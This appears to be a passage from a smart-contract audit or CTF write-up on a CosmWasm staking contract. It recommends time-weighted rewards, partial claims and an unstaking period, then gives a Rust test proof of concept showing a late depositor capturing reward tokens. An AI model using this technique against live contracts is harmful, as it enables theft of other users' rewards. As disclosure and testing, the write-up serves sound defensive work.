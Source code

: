 ### Recommendation

My recommendation would be to include the amount of time a user has had tokens deposited when calculating their rewards. This would prevent the bug described above where an exploiter can swoop in and steal rewards from other users. 

You may also want to allow a user to claim a specific amount of their rewards (as opposed to only being able to claim all rewards at once). This would be useful incase of inconsistencies between the amount of `REWARD_TOKEN` the contract has VS the amount of `rewards` the user is eligible for, due to the nature of math & rounding involved.

You might also consider adding an "unstaking" period to the contract, applied when a user calls `Withdraw`, especially if the `IncreaseReward` method is to be executed on a set schedule (once every Monday etc).

### Proof of concept

```rust
    #[test]
    fn thx_for_nothing() {
        let (mut app, contract_addr) = proper_instantiate();

        // new user2 join
        app = mint_tokens(app, USER2.to_owned(), Uint128::new(10_000));
        app.execute_contract(
            Addr::unchecked(USER2),
            contract_addr.clone(),
            &ExecuteMsg::Deposit {},
            &[coin(10_000, DENOM)],
        )
        .unwrap();

        // owner increases reward
        app = mint_reward_tokens(app, OWNER.to_owned(), Uint128::new(10_000));
        app.execute_contract(
            Addr::unchecked(OWNER),
            contract_addr.clone(),
            &ExecuteMsg::IncreaseReward {},
            &[coin(10_000, REWARD_DENOM)],
        )
        .unwrap();

        // query user1 info
        let user_info: UserRewardInfo = app
            .wrap()
            .query_wasm_smart(
                contract_addr.clone(),
                &QueryMsg::User {
                    user: USER.to_string(),
                },
            )
            .unwrap();
        assert_eq!(user_info.pending_rewards, Uint128::new(15_000));

        // query user2 info
        let user_info: UserRewardInfo = app
            .wrap()
            .query_wasm_smart(
                contract_addr.clone(),
                &QueryMsg::User {
                    user: USER2.to_string(),
                },
            )
            .unwrap();
        assert_eq!(user_info.pending_rewards, Uint128::new(5_000));
```